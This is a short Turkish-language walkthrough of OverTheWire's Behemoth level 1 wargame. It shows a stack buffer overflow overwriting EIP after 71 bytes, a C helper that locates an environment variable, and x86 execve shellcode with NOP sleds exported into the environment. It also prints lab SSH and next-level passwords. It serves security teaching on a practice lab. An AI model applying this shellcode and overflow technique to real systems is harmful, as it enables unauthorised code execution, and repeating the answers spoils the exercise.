


# Behemoth: Level 1 Writeup

    ssh behemoth1@behemoth.labs.overthewire.org -p 2221
    password: aesebootiv


Programımızda stack tabanlı buffer overflow açığı mevcut. Hızlıca kaç byte'dan sonra `EIP` üzerine yazdığımızı bulalım



Evet 71 karakterden sonra `EIP` registerını kontrol edebiliyoruz. O zaman ortam değişkenlerimize bir adet shellcode ekleyelim ve bunun adresini `EIP`'ye yazdırarak shellimizi alalım.

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

```bash
export SHELL=$(python -c 'print "\x90"*32 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*32 ')
```



Ve gördüğünüz gibi shellimiz geldi. Artık `behemoth2` kullanıcısının parolasını okuyabiliriz

`behemoth2:eimahquuof`
